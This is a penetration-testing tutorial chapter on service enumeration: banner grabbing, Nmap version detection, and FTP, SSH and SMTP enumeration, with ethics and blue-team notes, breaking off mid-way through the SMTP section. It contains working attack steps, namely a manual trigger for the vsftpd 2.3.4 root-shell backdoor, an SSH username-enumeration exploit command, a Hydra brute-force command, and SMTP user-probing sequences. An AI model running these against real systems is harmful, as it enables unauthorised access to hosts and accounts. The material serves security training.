





**Level:** Advanced · **Track:** Penetration Testing · **Read time:** 235 min

This is Chapter 6 of the Scanning & Enumeration notebook. The previous five chapters got you to a list of open ports: Chapter 1 set the host-discovery methodology, Chapters 2–4 built you into a full Nmap operator, and Chapter 5 added Masscan and RustScan for sweeping huge scopes at speed. Every one of those tools answers the same question — *which ports are open?* This chapter answers the far more valuable one that comes next: **what is actually listening on them, exactly which product and version, how is it configured, and what can I do with it?**

That shift — from open port to identified, versioned, misconfigured service — is called **service enumeration**, and it is where real penetration testing begins. An open port is a door. Enumeration tells you what's behind the door, who has the keys, whether the lock is a known-broken model, and whether someone left it propped open. A scan that stops at "port 21 open" is worthless; a scan that reports "vsftpd 2.3.4, anonymous login allowed, and this exact build shipped with a backdoor" is an engagement-changing finding.

We start with **banner grabbing**, the single most important primitive in this whole chapter, because almost every text-based service will tell you what it is if you simply connect and listen. Then we go protocol by protocol through the four services a tester meets first and most often on both real networks and CTF boxes: **FTP (21), SSH (22), SMTP (25/465/587), and Telnet (23)**. For each we cover the protocol from scratch, the exact enumeration commands with every flag explained, the misconfigurations and CVEs that matter, and how the same activity looks from the defender's side.

Everything here is active — you are connecting to and interrogating live services, which generates logs and, at volume, alerts. All of it stays inside authorised scope. Enumerating, and especially brute-forcing, services you have no written permission to test is unlawful in most jurisdictions. Scope and a signed rules-of-engagement document are hard boundaries, assumed throughout and called out where the risk is highest.



---

## Part 1: What Enumeration Actually Is — And Why It Wins Engagements

There is a saying repeated so often in offensive security that it has become a cliché precisely because it is true: **"enumeration is the key."** More boxes fall to thorough enumeration than to clever exploitation. The reason is structural. Modern software is mostly hard to exploit — memory protections, sandboxes, and patched code make novel exploitation rare and expensive. But *configuration* is done by humans under deadline pressure, and humans leave anonymous FTP enabled, ship default credentials, expose admin panels, and run software three versions behind. Enumeration finds those human mistakes, and human mistakes are the reliable path in.

Enumeration is not one action; it is a **loop** you run against every open port until it stops giving you information:



The discipline that separates good testers from beginners is **note-taking and exhaustiveness**. For every service you record: the exact product and version string, every user or account name you learn, every file or share you can read, every configuration detail (relay open? anonymous allowed? which auth methods?), and every candidate CVE. That record becomes your attack plan. A finding you didn't write down is a finding you don't have.

**Pentester landing on a new host:** the first fifteen minutes are pure enumeration — banner-grab every open port, identify each service, and triage which are interesting (auth services, file services, anything on a nonstandard port). You are building a map before you touch a single exploit.

**Blue team usage:** the same enumeration you run offensively is exactly what a defender should run against their own perimeter continuously. If you can pull a version banner and match it to a CVE, so can an attacker — and so should your own asset-management and vulnerability-management process. Enumeration is not just an attack phase; it's the core of external attack-surface management.

**Bug bounty relevance:** on a web/asset bounty with a broad scope, the version banner on a forgotten SMTP or FTP host is often the entire finding — an outdated, internet-exposed service with a public CVE is directly reportable. The recon-heavy bounty hunters (the ones who find things others miss) live in this enumeration loop across thousands of hosts.

---

## Part 2: Banner Grabbing From First Principles

A **banner** is the greeting a network service sends when you connect to it — a line (or several) of text that, by design or by accident, reveals what the service is. Many protocols *require* the server to speak first: an SMTP server must send a `220` greeting before the client says anything; an FTP server sends `220` too; an SSH server sends its protocol/version string immediately on TCP connect. That server-speaks-first behaviour is a gift to the enumerator, because it means you can learn what a service is **without even knowing its protocol** — just connect and read.

Why do services announce their exact version at all? Partly protocol necessity (SSH must negotiate a protocol version), partly interoperability (mail servers historically identified themselves so admins could debug), and partly sheer default configuration that nobody tightened. From a defender's standpoint the version in a banner is **information disclosure** — it hands an attacker the CVE lookup for free — which is why hardening guides tell you to suppress or fake banners. From the attacker's standpoint, the banner is the fastest possible route from "port open" to "here's the exploit."

### 2.1 The essential tool: netcat (nc)

`netcat` is the "TCP/IP Swiss Army knife" — a tiny utility that opens a raw TCP (or UDP) connection and pipes your keyboard to the socket and the socket to your screen. Nothing more, nothing less. That minimalism is exactly why it's the canonical banner-grab tool: it adds no protocol of its own, so whatever the server sends, you see raw.

It is preinstalled on Kali. Check which variant you have — the two common ones behave slightly differently on flags:

```bash
which nc
nc -h 2>&1 | head -n 3
```

You will usually have either the OpenBSD netcat (`nc.openbsd`) or the traditional/GNU netcat. The flags you care about for enumeration:

| Flag | Meaning | Why it matters for enum |
| --- | --- | --- |
| `-v` | Verbose — print connection status | Confirms the TCP connect actually succeeded |
| `-n` | No DNS resolution | Faster, avoids leaking reverse-DNS lookups |
| `-w <secs>` | Connection/read timeout | Stops nc hanging forever on a silent service |
| `-z` | Zero-I/O mode (just scan, don't send) | Quick port check without a full session |
| `-u` | UDP instead of TCP | For UDP services (rare in this chapter) |
| `-C` | Send CRLF as line ending | SMTP/FTP expect `\r\n`, not just `\n` |

The simplest possible banner grab — connect and read whatever the server volunteers:

```bash
nc -nv 10.10.10.50 21
```

Realistic output from an FTP server:

```
(UNKNOWN) [10.10.10.50] 21 (ftp) open
220 (vsFTPd 2.3.4)
```

That one `220` line is the whole point: you now know it's **vsftpd, version 2.3.4** — a build with a notorious backdoor (Part 6). You grabbed a critical finding with a single command and zero protocol knowledge.

For a service that speaks first, `nc` shows the banner immediately. For a service that expects the *client* to speak first (like HTTP), you have to send something — more on that below.

### 2.2 telnet as a banner grabber

Before it was a security liability (Part 9), `telnet` was — and still is — a perfectly good manual TCP client. Point it at any TCP port and it connects and shows you what comes back:

```bash
telnet 10.10.10.50 25
```

```
Trying 10.10.10.50...
Connected to 10.10.10.50.
Escape character is '^]'.
220 mail.acme.local ESMTP Postfix (Ubuntu)
```

You now know: it's **Postfix** on **Ubuntu**, and the mail hostname is `mail.acme.local`. To close a telnet session cleanly, press `Ctrl+]` then type `quit`. `telnet` and `nc` are near-interchangeable for grabbing banners; `nc` is scriptable and cleaner, `telnet` is on almost every machine including locked-down jump hosts.

### 2.3 Grabbing banners from TLS-wrapped services with openssl s_client

Plenty of services wrap their protocol in TLS, so a raw `nc` connection just returns encrypted garbage. For those — SMTPS (465), IMAPS (993), HTTPS (443), FTPS, SMTP+STARTTLS on 587 — you need a client that completes the TLS handshake first and *then* hands you the plaintext protocol. That's `openssl s_client`:

```bash
openssl s_client -connect 10.10.10.50:465 -quiet
```

- `-connect host:port` — the target.
- `-quiet` — suppress the verbose handshake/session dump so you drop straight into the protocol.

Once the handshake completes you'll see the service's banner (e.g. an SMTPS `220` greeting) and can type protocol commands by hand exactly as you would over plain `nc`. For STARTTLS-style services (where the connection begins in plaintext and upgrades), tell `s_client` which protocol to negotiate the upgrade for:

```bash
openssl s_client -connect 10.10.10.50:587 -starttls smtp -quiet
```

`-starttls smtp` makes `s_client` issue the `EHLO`/`STARTTLS` dance for you and then present the now-encrypted channel. It supports `smtp`, `imap`, `pop3`, `ftp`, `xmpp`, and more. As a bonus, the certificate `s_client` prints often leaks internal hostnames in its Subject/SAN fields — another enumeration data point.

### 2.4 HTTP banners with curl (services that expect the client to speak first)

HTTP is the classic "client speaks first" protocol — the server says nothing until you send a request. So `nc` alone shows an empty connection. You either type a raw request by hand or, more practically, use `curl -I` to fetch just the headers:

```bash
curl -sI http://10.10.10.50/
```

- `-s` — silent (no progress meter).
- `-I` — HEAD request; fetch headers only, not the body.

```
HTTP/1.1 200 OK
Server: Apache/2.4.29 (Ubuntu)
X-Powered-By: PHP/7.2.24
Date: ...
```

The `Server` and `X-Powered-By` headers are banners by another name: **Apache 2.4.29 on Ubuntu, PHP 7.2.24**. (Web enumeration gets its own dedicated treatment later in the series; it's mentioned here only to complete the banner-grabbing picture.)

### 2.5 The raw-manual banner grab (when nothing is preinstalled)

On a stripped host with no nc, telnet, or curl, you can still banner-grab using bash's built-in `/dev/tcp` pseudo-device:

```bash
exec 3<>/dev/tcp/10.10.10.50/22; cat <&3
```

This opens file descriptor 3 as a TCP socket to port 22 and `cat`s whatever the server sends — an SSH version string, in this case. It's a genuinely useful trick on a compromised jump host during post-exploitation, where you can't install tooling.

**Red team usage:** manual banner grabbing with `/dev/tcp` or a single `nc` is far quieter than a full `nmap -sV` sweep — one clean TCP connection per service, no probe barrage. When you're on a monitored network, one deliberate connection reads a banner without tripping the volume-based alerts that Nmap's probe database can.

**Blue team usage:** every one of these connects is a completed (or attempted) TCP session your logs can see. A single connection that immediately disconnects after the banner is a classic enumeration fingerprint — more on detection in Part 11.

---

## Part 3: Nmap Version Detection (-sV) — Banner Grabbing at Scale

Grabbing banners by hand is precise but doesn't scale to fifty ports. Nmap's **version detection**, `-sV`, is banner grabbing industrialised: it connects to each open port, reads what the service volunteers, and — crucially — for services that *don't* volunteer a clean banner, it sends a curated sequence of **probes** from its `nmap-service-probes` database and matches the responses against thousands of signatures to fingerprint the product, version, and often the OS and device type.

You met `-sV` in Chapter 3; here we use it as the enumeration workhorse and go one level deeper on how to squeeze it.

```bash
nmap -sV -p 21,22,23,25 10.10.10.50
```

Annotated output:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
23/tcp open  telnet  Linux telnetd
25/tcp open  smtp    Postfix smtpd
Service Info: Host: mail.acme.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Every field is enumeration gold: the exact FTP build, the OpenSSH patch level *and* the Ubuntu package suffix (which pins the OS release), the presence of legacy telnetd, and the mail hostname from the SMTP `Service Info`.

Key `-sV` controls:

| Flag | Effect | When to use |
| --- | --- | --- |
| `-sV` | Enable version detection | Default choice for enumeration |
| `--version-intensity <0-9>` | How many probes to try (0=light, 9=all) | Raise to 9 for a stubborn/unknown service |
| `--version-light` | Alias for intensity 2 (fast, common probes) | Big scopes where speed matters |
| `--version-all` | Alias for intensity 9 (try every probe) | One weird port you must identify |
| `--version-trace` | Print every probe/response for debugging | Understanding *why* a fingerprint failed |
| `-sV --allports` | Don't skip port 9100 etc. from version probes | When default skip-list hides something |

When Nmap can't match a service, it prints a **fingerprint block** and asks you to submit it. That block is still useful — it contains the raw responses, which you can read yourself. Bump to `--version-all` and add `-sC` (default scripts) to pull even more:

```bash
nmap -sV --version-all -sC -p 21,22,25 10.10.10.50
```

`-sC` runs the "default" category of the Nmap Scripting Engine (NSE) — safe, informative scripts like `ssh-hostkey`, `ftp-anon`, `smtp-commands`, and `banner`. These bridge directly into the protocol-specific enumeration of the coming parts, so `-sV -sC` is the standard opening enumeration command against a fresh host.

**CTF relevance:** on HackTheBox/TryHackMe, `nmap -sV -sC -p-` against the box is almost always the first command, and it frequently hands you the foothold directly — an anonymous FTP flag, an exposed version with a public exploit, or an SMTP banner naming an internal host. Reading that output carefully wins more early boxes than any single exploit.

---

## Part 4: FTP (Port 21) — Protocol, Enumeration & Anonymous Access

**FTP (File Transfer Protocol)** is one of the oldest application protocols still in wide use, defined in RFC 959 (1985). It moves files between a client and server, and it is a *plaintext* protocol — credentials and data travel unencrypted unless wrapped in TLS (FTPS). That plaintext nature, combined with decades of legacy deployments and a habit of enabling anonymous access, makes FTP a perennial enumeration target.

### 4.1 The dual-channel design — the thing that confuses everyone

FTP's defining oddity is that it uses **two separate TCP connections**: a **control channel** and a **data channel**. The control channel (port 21) carries commands and responses — `USER`, `PASS`, `LIST`, `RETR`, and the server's numeric replies. The actual file bytes and directory listings travel over a *separate* data channel on a different port. This split is why FTP is a nightmare for firewalls and why "active vs passive mode" exists.



- **Active mode:** the *server* opens the data connection back to the client (from port 20 to a client-specified port). This breaks whenever the client is behind NAT or a firewall — the inbound connection gets blocked. Active mode is largely historical.
- **Passive mode (`PASV`):** the *client* opens the data connection to a server-specified high port. This is firewall-friendly for the client and is the default in virtually every modern client. In the sequence above, the server's `227` reply encodes the data port as `(h1,h2,h3,h4,p1,p2)` where the port is `p1*256 + p2` — here `195*256 + 80 = 50000`.

Understanding this matters practically: when an FTP data transfer "hangs," it's nearly always an active/passive mismatch or a firewall blocking the data channel, not a credential problem.

### 4.2 Speaking FTP by hand

The `ftp` client (install with `sudo apt install ftp` if missing) gives you an interactive session, but you can also drive the raw protocol over `nc` to see exactly what's happening. First, the normal client:

```bash
ftp 10.10.10.50
```

```
Connected to 10.10.10.50.
220 (vsFTPd 2.3.4)
Name (10.10.10.50:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
227 Entering Passive Mode (10,10,10,50,195,80).
150 Here comes the directory listing.
-rw-r--r--    1 0        0             107 Mar 03  2022 secret_notes.txt
drwxr-xr-x    2 0        0            4096 Mar 03  2022 pub
226 Directory send OK.
ftp> get secret_notes.txt
local: secret_notes.txt remote: secret_notes.txt
226 Transfer complete.
ftp> binary
ftp> prompt off
ftp> quit
```

Essential in-session commands: `ls`/`dir` (list), `cd` (change dir), `get <file>` (download), `mget *` (download many — `prompt off` first to skip per-file confirmation), `put <file>` (upload, if writable), `binary` (binary mode — always set this before downloading executables/images or they corrupt), `passive` (toggle passive mode). The `secret_notes.txt` above is a textbook anonymous-FTP finding.

### 4.3 Anonymous login — the single most common FTP finding

Many FTP servers allow the username **`anonymous`** (or `ftp`) with any string (conventionally an email) as the password. It exists so servers can offer public downloads, but it's constantly left enabled on servers that shouldn't have it — exposing config backups, source code, credentials in `.txt` files, and writable upload directories you can plant a webshell in.

Nmap's `ftp-anon` NSE script checks this automatically across many hosts:

```bash
nmap -p 21 --script ftp-anon 10.10.10.50
```

```
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 0    0    107 Mar 03  2022 secret_notes.txt
|_drwxr-xr-x   2 0    0   4096 Mar 03  2022 pub
```

If anonymous login is allowed **and** a directory is writable, and that directory is served by a co-located web server, you have a direct path to remote code execution by uploading a webshell — a classic chained finding. Check writability by trying to `put` a harmless file.

### 4.4 FTP NSE enumeration scripts

Beyond `ftp-anon`, the NSE ships several FTP scripts. List them:

```bash
ls /usr/share/nmap/scripts/ | grep ftp
```

```
ftp-anon.nse
ftp-bounce.nse
ftp-libopie.nse
ftp-proftpd-backdoor.nse
ftp-syst.nse
ftp-vsftpd-backdoor.nse
ftp-vuln-cve2010-4221.nse
```

| Script | What it does |
| --- | --- |
| `ftp-anon` | Tests anonymous login and lists the root dir |
| `ftp-syst` | Runs `SYST` and `STAT` — leaks server OS and config |
| `ftp-bounce` | Tests the FTP bounce attack (using `PORT` to port-scan third parties) |
| `ftp-vsftpd-backdoor` | Detects/triggers the CVE-2011-2523 vsftpd 2.3.4 backdoor |
| `ftp-proftpd-backdoor` | Detects the ProFTPD 1.3.3c backdoor |
| `ftp-vuln-cve2010-4221` | Tests ProFTPD 1.3.2/1.3.3 telnet IAC stack overflow |

Run the safe informational ones together:

```bash
nmap -p 21 --script "ftp-anon,ftp-syst" -sV 10.10.10.50
```

### 4.5 The vsftpd 2.3.4 backdoor (CVE-2011-2523)

In 2011 the vsftpd 2.3.4 source on the master download site was compromised: a malicious commit added a **backdoor** that opens a root shell on port **6200** whenever a username containing the smiley `:)` is submitted. This is one of the most famous CTF/lab findings in existence (it's the intended path on Metasploitable 2 and countless training boxes), which is exactly why the banner `220 (vsFTPd 2.3.4)` should make you sit up.

Manual trigger — submit a username ending in `:)`, then connect to 6200:

```bash
nc -nv 10.10.10.50 21
USER hacker:)
PASS anything
```

Then, from another terminal:

```bash
nc -nv 10.10.10.50 6200
id
```

```
uid=0(root) gid=0(root) groups=0(root)
```

Nmap detects it non-destructively:

```bash
nmap -p 21 --script ftp-vsftpd-backdoor 10.10.10.50
```

**Ethics note:** triggering a backdoor is *exploitation*, not enumeration, and belongs only inside authorised scope on lab or contracted targets. It's included here because recognising the vulnerable banner is the enumeration skill; pulling the trigger is a later-phase, explicitly-authorised action.

**Bug bounty relevance:** an internet-exposed FTP server running a version with a public CVE (or anonymous access exposing sensitive files) is directly reportable on most asset/infra bounty programs — you don't even need to exploit it; the version banner plus a linked advisory is often sufficient impact.

---

## Part 5: SSH (Port 22) — Version, Host Keys, Algorithms & Auth Enumeration

**SSH (Secure Shell)** is the encrypted remote-administration protocol that replaced telnet, rlogin, and rsh. Port 22 is the single most common open port on internet-facing Linux hosts. Because SSH is well-designed and modern versions are hard to exploit directly, enumeration here is less about "find the RCE" and more about **fingerprinting the exact version, discovering weak configuration, enumerating valid usernames, and assessing whether brute-force is viable**.

### 5.1 The SSH version string — free on connect

SSH servers send their identification string the instant you connect, before any encryption is negotiated. Grab it raw:

```bash
nc -nv 10.10.10.50 22
```

```
SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
```

Parse it: `SSH-2.0` = protocol version 2 (you should never see `SSH-1.x`; SSH-1 is cryptographically broken). `OpenSSH_7.6p1` = the implementation and version. `Ubuntu-4ubuntu0.3` = the distro package suffix, which pins the OS to a specific Ubuntu release (18.04 here) and even the patch level — useful for narrowing local-privesc candidates once you're on the box.

### 5.2 Enumerating host keys and algorithms

The server's **host key** is its cryptographic identity. Nmap's `ssh-hostkey` dumps the key types and fingerprints:

```bash
nmap -p 22 --script ssh-hostkey --script-args ssh_hostkey=full 10.10.10.50
```

```
| ssh-hostkey:
|   2048 aa:bb:cc:dd:... (RSA)
|   256  ee:ff:00:11:... (ECDSA)
|_  256  22:33:44:55:... (ED25519)
```

Host-key fingerprints let you **detect key reuse across hosts** (the same fingerprint on two "different" servers means they were cloned from one image — often a sign of a golden VM or a duplicated appliance) and confirm you're talking to the same box across scans.

To enumerate the **algorithms** the server offers — which reveals weak/deprecated crypto and, again, pins the version — the dedicated tool is **ssh-audit**.

**ssh-audit from scratch:** it's a standalone Python tool that connects, reads the server's supported key-exchange/cipher/MAC/host-key algorithms, and grades them against known-weak lists, flagging deprecated algorithms and mapping the fingerprint to likely OpenSSH versions and CVEs. Install and run:

```bash
sudo apt install ssh-audit      # or: pipx install ssh-audit
ssh-audit 10.10.10.50
```

Annotated (trimmed) output:

```
# general
(gen) banner: SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
(gen) software: OpenSSH 7.6p1
(gen) compatibility: OpenSSH 7.4+, Dropbear SSH 2018.76+
(gen) compression: enabled (zlib@openssh.com)

# key exchange algorithms
(kex) curve25519-sha256                     -- [info] available since OpenSSH 7.4
(kex) diffie-hellman-group14-sha1           -- [warn] using weak hashing algorithm (SHA-1)
(kex) diffie-hellman-group-exchange-sha1    -- [fail] removed (in server) since OpenSSH 8.2

# encryption algorithms (ciphers)
(enc) chacha20-poly1305@openssh.com         -- [info] default cipher since OpenSSH 6.9
(enc) aes256-gcm@openssh.com                -- [info]

# fingerprint / CVEs
(cve) CVE-2018-15473 -- (medium) enumerate valid usernames via auth timing/response
```

That `CVE-2018-15473` line is the headline enumeration finding for older OpenSSH — see 5.4.

### 5.3 Enumerating supported authentication methods

Before brute-forcing anything, find out *how* the server lets clients authenticate — password, public key, keyboard-interactive, or GSSAPI. If password auth is disabled, brute-forcing passwords is pointless. Ask the server directly by attempting a login with a nonexistent method and reading the "methods that can continue":

```bash
ssh -o PreferredAuthentications=none -o StrictHostKeyChecking=no user@10.10.10.50
```

```
user@10.10.10.50: Permission denied (publickey,password).
```

The parenthesised list — `publickey,password` — is the server's advertised auth methods. Here both key and password are allowed, so a password guess/spray is at least *possible*. If it read only `(publickey)`, passwords are off and you'd pivot to hunting for private keys instead.

- `-o PreferredAuthentications=none` — offer no real auth method, forcing the server to list what it accepts.
- `-o StrictHostKeyChecking=no` — don't prompt to accept the host key (fine for a lab; be deliberate about it on real engagements as it disables a MITM protection).

### 5.4 Username enumeration — CVE-2018-15473

OpenSSH before 7.7 has a subtle flaw: when you attempt to authenticate as a **nonexistent** user, the server responds differently (and often faster) than for a **valid** user, because it short-circuits before doing the expensive password-hash computation. By measuring that difference, an attacker can confirm which usernames exist without ever logging in. Valid usernames turn a blind password spray into a targeted one and are themselves a reportable information-disclosure issue.

A public PoC (widely mirrored) drives this; conceptually:

```bash
python3 sshUsernameEnumExploit.py --port 22 --userList users.txt 10.10.10.50
```

```
[+] admin        is a valid user!
[-] noexist      is NOT a valid user
[+] backupsvc    is a valid user!
```

**Mitigation the blue team should recognise:** upgrade to OpenSSH ≥ 7.7 (the timing was normalised), and rate-limit/monitor auth attempts. The presence of this CVE is one more reason the exact `OpenSSH_x.y` version in the banner matters so much.

### 5.5 SSH brute-force discipline with Hydra

If password auth is enabled and you have a legitimate reason (authorised test, known-weak lab box), **Hydra** is the standard online password-guessing tool.

**Hydra from scratch:** it's a fast, parallelised network login cracker that supports dozens of protocols (SSH, FTP, HTTP-form, SMB, RDP, and more). It takes a target, a service module, and username/password lists, and tries combinations over the live protocol. Preinstalled on Kali.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 4 -f ssh://10.10.10.50
```

- `-l admin` — single username (`-L users.txt` for a list).
- `-P rockyou.txt` — password wordlist (`-p` for a single password).
- `-t 4` — 4 parallel tasks. **Keep this low for SSH** — modern OpenSSH rate-limits and drops connections above ~4–6 parallel, and high concurrency just causes errors and noise.
- `-f` — stop after the first valid pair is found.

```
[22][ssh] host: 10.10.10.50   login: admin   password: Summer2024!
1 of 1 target successfully completed, 1 valid password found
```

**Discipline and ethics:** online brute-forcing is loud (every attempt is a logged auth failure), slow, and account-lockout-prone. It's a last resort, used only with explicit authorisation, and almost never against production accounts you could lock out. Prefer credentials found through other enumeration (FTP files, config leaks, password reuse) before ever spraying. **Blue team:** a burst of SSH auth failures from one source is the single easiest enumeration/brute-force signature to alert on (Part 11).

**CTF relevance:** on training boxes, SSH is frequently the *foothold-to-shell* step once you've found a credential elsewhere (a password in an FTP file, a private key in a web directory), and plain `ssh user@target` drops you straight to a shell. Enumerating which users exist tells you *which* credential to try.

---

## Part 6: SMTP (Ports 25/465/587) — The Mail Conversation & User Enumeration

**SMTP (Simple Mail Transfer Protocol)**, RFC 5321, is how mail servers accept and relay email. It's a plaintext, line-based, human-readable protocol — you can hold an entire mail conversation by hand — which makes it wonderfully enumerable. The three ports you'll meet:

| Port | Role | Encryption |
| --- | --- | --- |
| 25 | Server-to-server relay (MTA to MTA) | Plaintext or opportunistic STARTTLS |
| 465 | Legacy "SMTPS" — implicit TLS submission | TLS from connect |
| 587 | Modern mail submission (client to server) | STARTTLS (upgrade after connect) |

### 6.1 Holding a mail conversation by hand

Connect with `nc` (use `-C` so line endings are CRLF, which strict servers require) and speak SMTP directly:

```bash
nc -nvC 10.10.10.50 25
```

```
220 mail.acme.local ESMTP Postfix (Ubuntu)
HELO attacker.test
250 mail.acme.local
EHLO attacker.test
250-mail.acme.local
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250 DSN
```

- `220` — the greeting banner (server name, `ESMTP`, product `Postfix`, OS `Ubuntu`). Immediate fingerprint.
- `HELO <name>` — the old-style greeting; the server replies `250`.
- `EHLO <name>` — extended greeting; the server lists **every capability it supports**. This list is itself enumeration gold: `VRFY` present means user-verification may work; `STARTTLS` tells you it upgrades to TLS; `SIZE` gives the max message size.

The verbs that matter for enumeration are `VRFY`, `EXPN`, and `RCPT TO`.

### 6.2 User enumeration with VRFY, EXPN, and RCPT TO

SMTP historically offered commands to *verify* whether a mailbox exists — a feature for legitimate mail debugging that doubles as a username oracle:

- **`VRFY <user>`** — "does this user exist?" The server answers `250`/`252` (exists/maybe) or `550` (no such user).
- **`EXPN <list>`** — expand a mailing list into its members.
- **`RCPT TO:<user>`** — inside a mail transaction, the server often accepts `250` for valid recipients and `550` for invalid ones, even when `VRFY` is disabled. This is the most reliable modern technique.

Manual `VRFY`:

```
VRFY root
252 2.0.0 root
VRFY admin
252 2.0.0 admin
VRFY nosuchuser
550 5.1.1 <nosuchuser>: Recipient address rejected: User unknown in local recipient table
```

The `252` vs `550` difference confirms `root` and `admin` exist while `nosuchuser` does not. When `VRFY` is disabled, fall back to a `RCPT TO` probe inside a transaction:

```
MAIL FROM:<test@attacker.test>
250 2.1.0 Ok
RCPT TO:<validuser@acme.local>
250 2.1.5 Ok
RCPT TO:<ghost@acme.local>
550 5.1.1 <ghost@acme.local>: Recipient address rejected: User unknown
```

